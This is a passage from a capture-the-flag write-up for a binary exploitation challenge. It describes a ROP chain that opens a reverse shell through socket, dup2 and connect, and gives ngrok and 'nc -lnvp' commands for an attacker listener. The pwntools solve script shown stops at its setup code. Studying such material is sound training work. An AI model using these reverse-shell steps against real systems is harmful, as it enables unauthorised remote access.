 
So, they perform a reverse shell by using a `socket`, then `dup2` the socket's file descriptor, and then `connect`.
So, I simply use a ropchain to invoke the `syscall`. To public the IP address, we can use `ngrok tcp 8080`, then `nc -lnvp 8080`.

To get the shell in one input, we can write `.bss` `/bin/sh\0` then execute.

![alt](../../../img/CTFNational/ITFEST25_CTF/Solve2.png)

### Solve Script

```python
#!/usr/bin/env python3
from pwn import *
from subprocess import Popen
from pyngrok import ngrok

# =========================================================
#                          SETUP                         
# =========================================================
exe = './chall'
elf = context.binary = ELF(exe, checksec=True)
libc = elf.libc
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h", "-p", "65"]
host, port = "103.160.212.3", 1470


gdbscript = '''
init-pwndbg
#set architecture aarch64
# target remote :5000
b *main+80
c
'''.format(**locals())

def initialize(argv=[]):
    global pid
    if args.QEMU:
        if args.GDB:
            return process(["qemu-aarch64", "-g", "5000", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
        else:
            return process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
    elif args.DOCKER:
        p = remote("localhost", 5000)
        time.sleep(1)
        pid = process(["pgrep", "-fx", "./run"]).recvall().strip().decode()
        return p
    elif args.REMOTE:
        context.log_level = 'info'
        return remote(host, port, ssl=False)
    elif args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    else:
```